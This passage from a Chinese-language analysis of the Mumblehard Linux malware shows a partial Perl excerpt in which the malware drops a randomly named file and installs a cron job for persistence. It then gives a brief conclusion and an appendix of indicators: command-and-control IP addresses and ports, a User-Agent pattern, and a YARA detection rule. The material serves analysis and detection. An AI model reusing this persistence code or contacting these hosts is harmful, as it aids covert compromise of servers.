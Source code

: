 ```
    my $bdrpn = [ "a" .. "z", "A" .. "Z" ];
    $bdrpn = join( "",
    @$bdrpn[ map { rand @$bdrpn } ( 1 .. ( 6 + int rand 5 ) ) ] );
    my $bdrpb = "$bdrpp/$bdrpn";
    my $bdrpc = $bdrpb . int rand 9;
    # crontab job to add (runs every 15 minutes)
    my $bdrpt = "*/15 * * * * $bdrpb >/dev/null 2>&1\n";
    if ( open( B, ">", $bdrpb ) ) {
    # Drop file and install job with crontab
    [...]
    }
  }
}

```

0x04 结论
=======

* * *

恶意软件正在变的越来越复杂，另一个令人担忧的是Mumblehard的运营这么多年一直没中断过。

附录A

UDP packets to

```
•    194.54.81.162 port 53

```

TCP connections to

```
•    194.54.81.163 port 80 (backdoor)
•    194.54.81.163 port 54321 (proxy)
•    194.54.81.163 port 25 (spammer)
•    194.54.81.164 port 25 (spammer)

```

HTTP requests with the following User-Agent pattern

```
•    Mozilla/5.0 (Windows NT 6.1; rv:7.0.1) Gecko/<1 or more digits>.<1 or
more digits>.<1 or more digits> Firefox/7.0.1

```

yara rule

```
rule mumblehard_packer
{
meta:
 description = "Mumblehard i386 assembly code responsible for decrypting Perl
code"
 author = "Marc-Etienne M.Léveillé"
 date = "2015-04-07"
 reference = "http://www.welivesecurity.com"
 version = "1"
strings:
 $decrypt = { 31 db [1-10] ba ?? 00 00 00 [0-6] (56 5f | 89 F7)
 39 d3 75 13 81 fa ?? 00 00 00 75 02 31 d2 81 c2 ?? 00 00
 00 31 db 43 ac 30 d8 aa 43 e2 e2 }
condition:
 $decrypt
}

```